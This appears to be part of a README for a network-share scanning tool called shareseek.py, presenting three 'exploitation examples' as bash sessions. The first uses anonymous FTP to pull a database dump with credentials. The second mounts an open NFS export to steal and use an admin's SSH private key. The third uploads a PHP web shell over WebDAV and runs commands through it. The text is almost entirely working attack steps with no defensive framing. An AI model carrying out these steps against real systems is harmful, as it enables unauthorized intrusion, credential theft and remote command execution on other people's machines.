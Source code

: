 ## Exploitation Examples

### Example 1: Anonymous FTP Data Breach
```bash
# Discovery
./shareseek.py -f servers.txt
# Found: 192.168.1.50 - FTP [ANONYMOUS]

# Access
ftp 192.168.1.50
# Username: anonymous
# Password: (blank)

# Enumerate
ftp> ls -laR

# Found: /backup/database_backup_20250114.sql
ftp> get database_backup_20250114.sql

# Result: Full database dump with user credentials
```

### Example 2: NFS World-Readable Export
```bash
# Discovery
./shareseek.py
# Found: 192.168.1.51:/home (*)

# Mount
mount -t nfs 192.168.1.51:/home /mnt/home

# Explore
ls -la /mnt/home/
# Found: admin/, dbadmin/, root/

# Extract SSH keys
cp /mnt/home/admin/.ssh/id_rsa ./admin_key
chmod 600 admin_key

# Result: SSH key for privileged user
ssh -i admin_key admin@192.168.1.100
```

### Example 3: WebDAV Upload & Shell
```bash
# Discovery
./shareseek.py
# Found: http://192.168.1.53:80/webdav

# Test write access
curl -X PUT http://192.168.1.53/webdav/test.txt -d "test"
# HTTP/1.1 201 Created

# Upload PHP shell
curl -X PUT http://192.168.1.53/webdav/cmd.php \
    -d '<?php system($_GET["c"]); ?>'

# Execute commands
curl http://192.168.1.53/webdav/cmd.php?c=whoami
# www-data

# Result: Web shell with www-data privileges
```